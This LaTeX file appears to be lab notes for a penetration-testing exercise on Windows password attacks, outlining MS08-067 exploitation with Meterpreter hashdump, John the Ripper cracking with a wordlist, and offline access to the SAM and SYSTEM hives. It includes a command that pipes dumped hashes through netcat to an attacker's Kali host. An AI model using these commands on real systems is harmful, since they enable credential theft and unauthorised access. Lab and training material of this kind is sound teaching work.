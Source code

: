 \documentclass[12pt]{article}
\newcommand{\code}[1]{\texttt{\bfseries#1}}
\begin{document}
\begin{itemize}
	\item Task1: Getting Password Hashes Remotely
			\begin{itemize}
			
			\item Windows/smb/ms08\_067\_netapi
			\item 	Type hashdump 
			\item 	To run the smart hashdump script from meterpreter use, \linebreak meterpreter \code>run post/windows/gather/smart hashdump
		\end{itemize} 
	\item Challenge 1: Offline Password Attacks
			\begin{itemize}
				\item  john passworddump.txt --wordlist = rockyou.txt
			\end{itemize}
	
	\item Activity 1: Physical Access
		\begin{itemize}
			\item Login into windows 7 and create multiple user accounts
			\item Restart and boot from CD-ROM
			\item Select forensic mode
			
		\end{itemize}
	\item Activity 2: Physical Access 2
		\begin{itemize}
			\item mkdir -p/mnt/sda2
			\item mount /dev/sda2 /mnt/sda2
			\item cd /mnt/sda2/windows/system32/config
			
		\end{itemize}
	\item Challenge 2: Saving windows7 hashes
		\begin{itemize}
			\item -	nc -l -p \code<portnumber\code> \code<filename.txt\code>
			\item samdump2 SYSTEM SAM \code| nc -w 3 \code<IP of kali\code>  \code<Port\code>
		\end{itemize}
	\item Challenge 3: Offline Password Attack2
		\begin{itemize}
			\item samdump2 SYSTEM SAM \code-o out
			\item john --format \code= NT 
		\end{itemize}
	
\end{itemize}
\end{document}

